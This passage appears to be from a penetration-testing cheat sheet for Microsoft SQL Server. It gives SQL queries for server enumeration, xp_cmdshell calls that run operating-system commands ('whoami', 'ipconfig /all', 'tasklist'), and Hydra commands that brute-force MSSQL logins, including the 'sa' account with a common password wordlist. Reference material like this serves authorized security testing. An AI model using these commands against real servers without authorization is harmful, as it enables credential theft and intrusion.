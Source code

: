 ### System Information Queries

#### Configuration Information
```sql
-- Show configuration options
SELECT name, value_in_use FROM sys.configurations;

-- Show advanced options
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure;

-- Check dangerous configurations
SELECT name, value_in_use FROM sys.configurations 
WHERE name IN ('xp_cmdshell', 'Ole Automation Procedures', 'Ad Hoc Distributed Queries');
```

#### System Details
```sql
-- Operating system information
SELECT 
    @@SERVERNAME as ServerName,
    @@VERSION as SQLVersion,
    SERVERPROPERTY('ProductVersion') as ProductVersion,
    SERVERPROPERTY('Edition') as Edition,
    SERVERPROPERTY('MachineName') as MachineName;

-- Service account information
EXEC xp_cmdshell 'whoami';

-- Network configuration
EXEC xp_cmdshell 'ipconfig /all';

-- System processes
EXEC xp_cmdshell 'tasklist';
```

---

## Credential Attacks

### Brute Force Attacks

#### Hydra
```bash
# MSSQL brute force
hydra -L users.txt -P passwords.txt mssql://target

# Single user attack
hydra -l sa -P passwords.txt mssql://target

# Windows authentication
hydra -L users.txt -P passwords.txt -s 1433 target mssql

# Custom wordlists
hydra -l sa -P /usr/share/wordlists/rockyou.txt mssql://target
```
